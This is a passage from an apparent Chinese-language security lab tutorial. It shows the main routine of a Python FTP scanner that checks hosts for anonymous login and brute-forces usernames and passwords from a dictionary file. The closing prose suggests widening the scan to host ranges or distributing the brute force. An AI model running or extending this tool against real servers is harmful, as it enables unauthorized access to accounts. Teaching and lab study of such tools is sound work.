 ```
                              userName + ':' + passWord)
                        return (userName, passWord)
                except Exception as e:
                    # 产生异常表示没有登录成功，这里我们不用管它，继续尝试其他用户名、密码
                    pass
    except IOError as e:
        print('Error: the password file does not exist!')
    print('\n[-] Cannot crack the FTP password, please change the password dictionary try again!')
    return (None,None)

def main():
    # 这里用描述创建了 ArgumentParser 对象
    parser = argparse.ArgumentParser(description='FTP Scanner')
    # 添加-H 命令 dest 可以理解为咱们解析时获取-H 参数后面值的变量名,help 是这个命令的帮助信息
    parser.add_argument('-H',dest='hostName',help='The host list with ","space')
    parser.add_argument('-f',dest='pwdFile',help='Password dictionary file')
    options = None
    try:
        options = parser.parse_args()

    except:
        print(parser.parse_args(['-h']))
        exit(0)

    hostNames = str(options.hostName).split(',')
    pwdFile = options.pwdFile
    if hostNames == ['None']:
        print(parser.parse_args(['-h']))
        exit(0)

    for hostName in hostNames:
        username = None
        password = None
        if anonScan(hostName) == True:
            print('Host: ' + hostName + ' Can anonymously!')
        elif pwdFile != None:
            (username,password) = vlcLogin(hostName,pwdFile)
            if password != None:
                print('\n[+] Host: ' + hostName + 'Username: ' + username + \
                      'Password: ' + password)

    print('\n[*]-------------------Scan End!--------------------[*]')

if __name__ == '__main__':
    main() 
```

到此我们的代码就全部完成了，稍加改动就会使这个扫描器更加强大，比如：主机名可以指定范围实现大范围扫描或者改成分布式暴力破解 Ftp 用户名密码这样字典的容量就可以更大一些，成功率也会大大增加！

## 四、实验环境搭建
